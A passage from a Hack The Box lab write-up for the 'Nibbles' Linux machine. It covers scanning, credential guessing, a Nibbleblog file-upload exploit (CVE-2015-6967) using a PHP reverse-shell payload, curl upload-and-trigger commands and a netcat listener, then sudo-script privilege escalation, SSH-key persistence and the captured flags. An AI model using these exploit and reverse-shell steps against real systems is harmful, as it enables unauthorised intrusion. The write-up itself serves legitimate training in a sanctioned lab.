








+++
title = "Nibbles"
date = "2024-02-25"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2018-01-13

**Created by**: [mrb3n](https://app.hackthebox.com/users/2984)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.5`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.75`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Nibbles using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.75" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.75" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.75" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Nibbles is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.75" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
<SNIP>
```

## Services enumeration

### Apache

#### Exploration

Let's browse to `http://10.10.10.75/`.


It's a basic web page with the 'Hello world!' message.

#### Source code review

If we check the source code of the web page, we find this comment:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

It indicates that a `nibbleblog` directory exists at the root of the web
server.

#### Exploration

Let's browse to `http://10.10.10.75/nibbleblog/`.



It's a simple blog page.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using PHP.

Moreover, the footer of the page we discovered indicates that it's powered by
Nibbleblog.

> Easy, fast and free CMS Blog. All you need is PHP to work.
>
> — [GitHub](https://github.com/dignajar/nibbleblog)

#### Exploration

Unfortunately, there's no posts and we can't do anything.

#### Site crawling

Let's see if we can find any linked web pages or directories.

```sh
❯ katana -u "http://10.10.10.75/nibbleblog/"
```

```
<SNIP>
http://10.10.10.75/nibbleblog/
http://10.10.10.75/nibbleblog/themes/simpler/css/page.css
http://10.10.10.75/nibbleblog/themes/simpler/css/normalize.css
http://10.10.10.75/nibbleblog/themes/simpler/css/plugins.css
http://10.10.10.75/nibbleblog/themes/simpler/css/post.css
http://10.10.10.75/nibbleblog/feed.php
http://10.10.10.75/nibbleblog/themes/simpler/js/rainbow-custom.min.js
http://10.10.10.75/nibbleblog/themes/simpler/css/rainbow.css
http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=uncategorised
http://10.10.10.75/nibbleblog/
http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=videos
http://10.10.10.75/nibbleblog/index.php?controller=blog&action=view&category=music
http://10.10.10.75/nibbleblog/admin/js/jquery/jquery.js
http://10.10.10.75/nibbleblog/themes/simpler/css/main.css
```

It reveals the existence of a `/nibbleblog/admin/` folder.

#### Exploration

Let's browse to `http://10.10.10.75/nibbleblog/admin/`.



It contains a bunch of files and folders. I explored them, but they're mostly
PHP files, so they get executed when I browse them. I believe that this folder
holds the source code of the website.

#### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u "http://10.10.10.75/nibbleblog/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/,.php"
```

```
<SNIP>
[Status: 200, Size: 402, Words: 33, Lines: 11, Duration: 47ms]
| URL | http://10.10.10.75/nibbleblog/sitemap.php
    * FUZZ: sitemap.php

[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 39ms]
| URL | http://10.10.10.75/nibbleblog/content
| --> | http://10.10.10.75/nibbleblog/content/
    * FUZZ: content

[Status: 200, Size: 1353, Words: 88, Lines: 19, Duration: 40ms]
| URL | http://10.10.10.75/nibbleblog/content/
    * FUZZ: content/

[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 37ms]
| URL | http://10.10.10.75/nibbleblog/themes
| --> | http://10.10.10.75/nibbleblog/themes/
    * FUZZ: themes

[Status: 200, Size: 1741, Words: 112, Lines: 21, Duration: 41ms]
| URL | http://10.10.10.75/nibbleblog/themes/
    * FUZZ: themes/

[Status: 200, Size: 302, Words: 8, Lines: 8, Duration: 43ms]
| URL | http://10.10.10.75/nibbleblog/feed.php
    * FUZZ: feed.php

[Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 37ms]
| URL | http://10.10.10.75/nibbleblog/admin
| --> | http://10.10.10.75/nibbleblog/admin/
    * FUZZ: admin

[Status: 200, Size: 2127, Words: 136, Lines: 23, Duration: 49ms]
| URL | http://10.10.10.75/nibbleblog/admin/
    * FUZZ: admin/

[Status: 200, Size: 1401, Words: 79, Lines: 27, Duration: 53ms]
| URL | http://10.10.10.75/nibbleblog/admin.php
    * FUZZ: admin.php

[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 38ms]
| URL | http://10.10.10.75/nibbleblog/plugins
| --> | http://10.10.10.75/nibbleblog/plugins/
    * FUZZ: plugins

[Status: 200, Size: 3777, Words: 232, Lines: 31, Duration: 40ms]
| URL | http://10.10.10.75/nibbleblog/plugins/
    * FUZZ: plugins/

[Status: 200, Size: 2987, Words: 116, Lines: 61, Duration: 3988ms]
| URL | http://10.10.10.75/nibbleblog/index.php
    * FUZZ: index.php

[Status: 200, Size: 78, Words: 11, Lines: 1, Duration: 41ms]
| URL | http://10.10.10.75/nibbleblog/install.php
    * FUZZ: install.php

[Status: 200, Size: 1622, Words: 103, Lines: 88, Duration: 47ms]
| URL | http://10.10.10.75/nibbleblog/update.php
    * FUZZ: update.php

[Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 36ms]
| URL | http://10.10.10.75/nibbleblog/README
    * FUZZ: README

[Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 37ms]
| URL | http://10.10.10.75/nibbleblog/languages
| --> | http://10.10.10.75/nibbleblog/languages/
    * FUZZ: languages

[Status: 200, Size: 3167, Words: 208, Lines: 28, Duration: 38ms]
| URL | http://10.10.10.75/nibbleblog/languages/
    * FUZZ: languages/

[Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 43ms]
| URL | http://10.10.10.75/nibbleblog/.php
    * FUZZ: .php

[Status: 200, Size: 2986, Words: 116, Lines: 61, Duration: 83ms]
| URL | http://10.10.10.75/nibbleblog//
    * FUZZ: /

[Status: 200, Size: 2986, Words: 116, Lines: 61, Duration: 84ms]
| URL | http://10.10.10.75/nibbleblog/
    * FUZZ:
<SNIP>
```

We get a hit for various web pages.

#### Exploration

Let's browse to `http://10.10.10.75/nibbleblog/update.php`.



This page is interesting, because it leaks that the Apache server is using
Nibbleblog version `4.0.3`.

Now let's browse to `http://10.10.10.75/nibbleblog/admin.php`.



It's a login page! We may have access to more functionalities if we manage to
log in.

If we search online for Nibbleblog's default credentials, we find nothing.

What about common credentials then? I launched a Cluster bomb attack on Burp
Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords. Unfortunately, only the first 5 requests were tried, the
server blacklists my IP after that.

This is the hard part, and I had to look it up online. Somehow, you're supposed
to guess that the credentials are `admin`:`nibbles`, and you have to find them
within 5 attempts or else your IP gets blacklisted...

Anyways, now that we're logged in, we get access to new a new page.



It's a dashboard to manage the blog.

We have access to various functionalities, including publishing or managing blog
posts. We can also edit the themes and plugins, but I don't see how to get a
foothold using these functionalities.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `Nibbleblog 4.0.3`, we
find
[Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)](https://www.exploit-db.com/exploits/38489)
([CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)).

## Foothold ([CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967))

[CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967) is a
vulnerability affecting Nibbleblog versions prior to `4.0.5`. An authenticated
attacker can utilize the 'My image' plugin to upload a file with an executable
extension like PHP, and then execute it by sending a request to
`/content/private/plugins/my_image/image.php`. This effectively grants the
attacker RCE.

### Checks

This exploit requires the 'My image' plugin to be installed. Let's check if it
is:



We see that it's indeed installed.

### Preparation

The Metasploit module `exploit/multi/http/nibbleblog_file_upload` can be used to
exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

I'll save it as `revshell.php`.

### Exploitation

It's time to upload our `revshell.php` file. However, to do so, we need a
`PHPSESSID` token.

```sh
❯ RESPONSE=$(curl -s -i "http://10.10.10.75/nibbleblog/admin.php?controller=user&action=login" -X "POST" --data-urlencode "username=admin" --data-urlencode "password=nibbles"); \
  PHPSESSID=$(echo "$RESPONSE" | grep -oP "Set-Cookie: PHPSESSID=\K[^;]+")
```

With this value, we can upload our PHP file.

```sh
❯ curl -s -o "/dev/null" -H "Cookie: PHPSESSID=$PHPSESSID" "http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image" -X "POST" -F "plugin=my_image" -F "title=Revshell" -F "position=4" -F "caption=Revshell" -F "image=@/workspace/revshell.php;type=application/x-php" -F "image_resize=1" -F "image_width=230" -F "image_height=200" -F "image_option=auto"
```

Finally, let's trigger our `revshell.php` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php"
```

And if we check our listener:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 41228
<SNIP>
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

It caught the reverse shell!

### Spawning a pty & establishing persistence

Let's use SSH to spawn a pty and to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Nibbles as `nibbler`.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `nibbler`.

### Architecture

What is Nibbles's architecture?

```sh
nibbler@Nibbles:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Nibbles is using.

```sh
nibbler@Nibbles:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
```

Okay, so it's Ubuntu 16.04.

### Kernel

Let's find the kernel version of Nibbles.

```sh
nibbler@Nibbles:~$ uname -r
```

```
4.4.0-104-generic
```

It's `4.4.0`.

### Users

Let's enumerate all users.

```sh
nibbler@Nibbles:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
root
```

There's only `root`.

### Groups

Let's enumerate all groups.

```sh
nibbler@Nibbles:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
list
lp
lpadmin
lxd
mail
man
messagebus
mlocate
mysql
netdev
news
nibbler
nogroup
operator
plugdev
proxy
root
sambashare
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-bus-proxy
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
nibbler@Nibbles:~$ ifconfig
```

```
ens192    Link encap:Ethernet  HWaddr 00:50:56:b9:91:f9  
          inet addr:10.10.10.75  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:91f9/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:91f9/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:853 errors:0 dropped:23 overruns:0 frame:0
          TX packets:1203 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:112844 (112.8 KB)  TX bytes:194623 (194.6 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:11840 (11.8 KB)  TX bytes:11840 (11.8 KB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Nibbles's hostname?

```sh
nibbler@Nibbles:~$ hostname
```

```
Nibbles
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
nibbler@Nibbles:~$ cat "/home/nibbler/user.txt"
```

```
776d2a7bd5bb06164ac5545d577f73cc
```

### Home folders

If we explore our home folder, we notice a `personal.zip` file.

### Inspecting `/home/nibbler/personal.zip`

Let's get the content of this mysterious file:

```sh
nibbler@Nibbles:~$ unzip -l "/home/nibbler/personal.zip"
```

```
Archive:  /home/nibbler/personal.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2017-12-10 21:58   personal/
        0  2017-12-10 22:05   personal/stuff/
     4015  2015-05-08 03:17   personal/stuff/monitor.sh
---------                     -------
     4015                     3 files
```

Okay, so it contains a `monitor.sh` file. Let's unzip it now:

```sh
nibbler@Nibbles:~$ unzip "/home/nibbler/personal.zip" -d "/tmp"
```

```
Archive:  /home/nibbler/personal.zip
   creating: /tmp/personal/
   creating: /tmp/personal/stuff/
  inflating: /tmp/personal/stuff/monitor.sh
```

### Inspecting `/tmp/personal/stuff/monitor.sh`

Now let's inspect the `monitor.sh` file we just obtained from the ZIP archive.

```sh
<SNIP>
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
<SNIP>
su -c "cp $scriptname /usr/bin/monitor" root && echo "Congratulations! Script Installed, now run monitor Command" || echo "Installation failed"
<SNIP>
```

It's a Bash script used to monitor various metrics like network, disk usage,
uptime, load average and RAM usage.

It was written for
[this Tecmint blog post](https://www.tecmint.com/linux-server-health-monitoring-script/)
and the source code can be found at
[this GitHub repository](https://github.com/atarallo/TECMINT_MONITOR).

One line of this script that struck me is the one that calls `su -c` followed by
a command. If this script is able to impersonate `root` to execute that command,
it means that it has special permissions somehow.

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
nibbler@Nibbles:~$ sudo -l
```

```
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We can execute the `monitor.sh` script in `/home/nibbler/personal/stuff`! In
fact, it would be the location of the `monitor.sh` file we just inspected if we
unzipped `personal.zip` in our home folder.

## Privilege escalation (Sudo permissions)

Since we can execute `/home/nibbler/personal/stuff/monitor.sh` as `root` and
that we have control over this path, we simply have to create our own
`monitor.sh` Bash script at this location to execute it as `root`!

### Preparation

The goal is to obtain an elevated shell.

I'll create a `monitor.sh` script in `/home/nibbler/personal/stuff` to execute
`/bin/bash`:

```sh
#!/bin/bash

/bin/bash -i
```

Then, I'll make it executable.

### Exploitation

Let's abuse our `sudo` permissions to execute the
`/home/nibbler/personal/stuff/monitor.sh` file as `root`:

```sh
nibbler@Nibbles:~$ sudo "/home/nibbler/personal/stuff/monitor.sh"
```

```
<SNIP>
root@Nibbles:~#
```

Yay!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Nibbles as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Nibbles:~# cat "/root/root.txt"
```

```
e6b595f5f8926283aca435c7b3467ade
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Very easy'. The
